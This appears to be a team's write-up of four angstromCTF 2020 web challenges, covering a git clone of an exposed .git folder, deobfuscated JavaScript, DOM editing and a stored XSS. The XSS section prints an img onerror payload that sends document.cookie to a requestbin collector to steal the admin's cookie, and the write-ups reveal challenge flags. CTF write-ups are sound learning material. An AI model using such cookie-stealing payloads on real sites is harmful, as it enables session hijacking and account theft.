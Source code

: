 # angstromCTF 2020
### This is our writeups for ångstromCTF 2020.
![angstrom-3e0d6c871da7786e59fcc988735f4f5ded75aab5fac89f538291b3ef033801eb](https://user-images.githubusercontent.com/36403473/77215806-d4b45380-6b1e-11ea-8853-b9539e6bc4d0.png)

i participated in ångstromCTF 2020 with my awesome team P1rates as python_4004 & my dude mokey  . This is our writeups about some challenges we solved during the competition.

# Web challenges 
## Git Good
 Noting the name of the challenge, I think the system is based on git mangement system 
 But I have to make sure first , so i will use dirb tool
![dirb](https://user-images.githubusercontent.com/36403473/77215204-85205880-6b1b-11ea-9ca2-a46a3b8c8347.png)

now lets try to download git files 
to do that open your terminal and write 
git clone +the link of the challenge 
##### <code> <b> git clone https://gitgood.2020.chall.actf.co/.git </b> </code> 
![Screenshot from 2020-03-21 02-37-29](https://user-images.githubusercontent.com/36403473/77215565-5f944e80-6b1d-11ea-9f41-b7f8d0feba48.png)
The first thing I thought about was looking at the log file
##### <code> <b>git log -p</b> </code>
![Screenshot from 2020-03-21 02-41-08](https://user-images.githubusercontent.com/36403473/77215657-037dfa00-6b1e-11ea-8edf-e4d6b2588f11.png)
yup i found the flag 
##### actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
## Consolation

by clicking on <b> pay my some money </b> it call <b> nofret() </b> function so let's see  source code  
![Screenshot from 2020-03-21 03-36-56](https://user-images.githubusercontent.com/36403473/77216945-2f51ad80-6b27-11ea-8634-b35ee7b33fe3.png)

okey i found that javascript is obfuscated.
so we need to revesre this code ,i use this online platform to decode our obfuscated js file <b> http://www.jsnice.org/ </b>

![Screenshot from 2020-03-21 03-46-10](https://user-images.githubusercontent.com/36403473/77216996-86578280-6b27-11ea-808b-fe5a8a3fb972.png)

looking very well i found ohh lets delete this line and put thit function on console <b>console ["clear"] ();</b>

![Screenshot from 2020-03-21 04-02-07](https://user-images.githubusercontent.com/36403473/77217187-2feb4380-6b29-11ea-9442-0a00b9398630.png)

yup i found it 
<b> actf{you_would_n0t_beli3ve_your_eyes} <b/>

##The Magic Word

it was very easy challenge what you should do only open <b>inspect</b>  and Change <b> "give flag" </b> to <b> "please give flag" </b>
![Screenshot from 2020-03-21 04-07-53](https://user-images.githubusercontent.com/36403473/77217291-fff07000-6b29-11ea-8a41-ac63fdd4ef62.png)
our flag is
####<b> actf{1nsp3c7_3l3m3nt_is_y0ur_b3st_fri3nd} </b>

## Xmas Still Stands

This was an easy <b> xss stored </b>  challenge given the following:
 
first i post this post <img src=x onerror='requestbin?cookie='+document.cookie>
i use requestbin to get admin cookies 
![Screenshot from 2020-03-21 04-26-16](https://user-images.githubusercontent.com/36403473/77217832-1e586a80-6b2e-11ea-9c2c-020f7d1e9376.png)

i reported my post to admin , checking my requestbin i found the flag 

![9d2b4cb0-d98d-4053-a165-341fc82d376d](https://user-images.githubusercontent.com/36403473/77217880-9faffd00-6b2e-11ea-8e50-b45a691fbb00.jpeg)

yup the flag is 
####<b>actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds} </b>
